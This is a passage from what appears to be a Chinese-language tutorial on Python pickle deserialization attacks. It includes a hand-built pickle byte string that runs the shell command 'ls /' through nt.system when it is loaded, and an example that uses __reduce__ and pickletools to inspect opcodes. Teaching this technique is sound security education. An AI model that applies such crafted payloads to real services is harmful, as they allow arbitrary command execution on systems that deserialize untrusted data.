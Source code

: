将ls /命令注入正常的代码，将序列化后的字节流导入后反序列化，即可执行ls /命令

```python
import pickle

import pickletools

import os

class Secret():

  def __init__(self):

​    self.username='admin'

​    self.passwd='123456'

payload=pickle.loads(b'\x80\x04\x95\x16\x00\x00\x00\x00\x00\x00\x00\x8c\x02nt\x8c\x06system\x93\x8c\x04ls /\x85R.')
```



#### 5.opcode

示例代码如下：

```python
import pickle

import pickletools

class secret:

  username = 'admin'

  passwd = '123456'

  def __init__(self, username=None, passwd=None):

​    if username:

​      self.username = username

​    if passwd:

​      self.passwd = passwd

  def __reduce__(self):

​    return (secret, (self.username, self.passwd))

data= secret()

serialized = pickle.dumps(data)

print ("序列化结果为：",serialized)

pickletools.dis(serialized)
```
